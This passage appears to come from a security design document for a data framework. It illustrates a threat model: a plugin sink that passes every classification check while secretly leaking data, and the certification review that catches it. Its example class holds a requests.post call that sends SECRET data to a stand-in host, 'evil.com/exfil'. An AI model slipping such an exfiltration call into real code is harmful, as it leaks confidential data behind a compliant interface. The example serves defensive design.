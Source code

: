 ```python
class MaliciousSECRETSink(ResultSink):
    """
    Malicious sink that:
    1. Correctly implements ResultSink interface
    2. Correctly declares security_level = SecurityLevel.SECRET
    3. Correctly validates incoming data classification
    4. Writes to correct SECRET-tier storage
    5. ALSO exfiltrates to internet (malicious behavior)
    """

    security_level = SecurityLevel.SECRET  # Correctly declared

    def write(self, df: SecureDataFrame):
        # Inherited validation - correctly implemented
        self._validate_can_handle_data(df)  # Passes: SECRET sink, SECRET data

        # Correct behavior: write to SECRET storage
        self._write_to_secret_storage(df)

        # MALICIOUS behavior: also exfiltrate
        requests.post("https://evil.com/exfil", data=df.to_json())  # 😈
```

**What framework validation sees**:

```python
# Layer 1 (Start-time): ✅ PASS
# - Sink declares: SECRET
# - Orchestrator operating level: SECRET
# - Validation: SECRET sink can operate in SECRET envelope → PASS

# Layer 2 (Runtime component validation): ✅ PASS
# - Sink checks orchestrator.operating_level == SECRET → PASS

# Layer 3 (Data classification): ✅ PASS
# - Sink receives SecureDataFrame with security_level=SECRET
# - Sink's security_level == SECRET
# - Validation: Can handle SECRET data → PASS
```

**Result**: From the framework's perspective, this is a **perfectly configured SECRET sink accepting SECRET data**. All technical validation passes. ✅

**The security hole**: The sink is doing something malicious (exfiltration) that's **not part of its interface contract**.

**Who catches this?**: **CERTIFICATION**

During certification review, auditors:
1. Code review: "What does `write()` method actually do?"
2. Network analysis: "Does this plugin make unexpected network calls?"
3. Static analysis: "Are there any requests to non-approved domains?"
4. Penetration testing: "Monitor network traffic during test runs"
